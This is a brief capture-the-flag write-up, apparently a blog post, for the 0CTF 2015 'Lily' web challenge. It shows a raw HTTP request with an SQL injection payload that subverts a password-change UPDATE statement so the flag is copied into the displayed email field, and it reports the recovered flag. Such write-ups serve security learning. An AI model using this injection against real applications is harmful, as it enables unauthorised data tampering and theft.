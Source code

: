 +++
author = "pwntester"
date = 2015-03-30T17:25:00Z
description = ""
draft = false
slug = "lily-web-200"
title = "0CTF 2015 - Lily (web 200)"

+++

A simple web where we can register and login in. Once logged in, we can change our password.
The home page shows a message from `Tales from two cities` and the email we used for log in.

There is a SQL injection affecting the `UPDATE` statement sent with the `Modify password` feature. The idea is to modify the statement to change also the email (that we can read in the home page):

```lang-raw
POST /modify HTTP/1.1
Host: 202.112.26.104:5000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:36.0) Gecko/20100101 Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,es-ES;q=0.8,es;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://202.112.26.104:5000/modify
Cookie: session=.eJyrVopPy0kszkgtVrKKrlZSKIFQSUpWSknhYVXJRm55UYG2tkq1OlDR8HBLQ0-PlJzk3ND0JHfLvCijsGxPd0vDFEeQqliwOjINySkFGRCro5STn56emhKfmadkVVJUmqqjVFqcWpSXmJsK1FpQnpdaZGigVAsAq0Q6FQ.B_iyaw.haWh_kdtJXPqgs1n__YSVID6vlY
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

password=0ewr1pn',email=(SELECT flag from flag),password='0ewr1pn
```

![Flag](/images/2015/Mar/Screen-Shot-2015-03-30-at-15-55-53.png)

FLAG is `0CTF{R0t_?_S8rRy_1_doNt_N}`

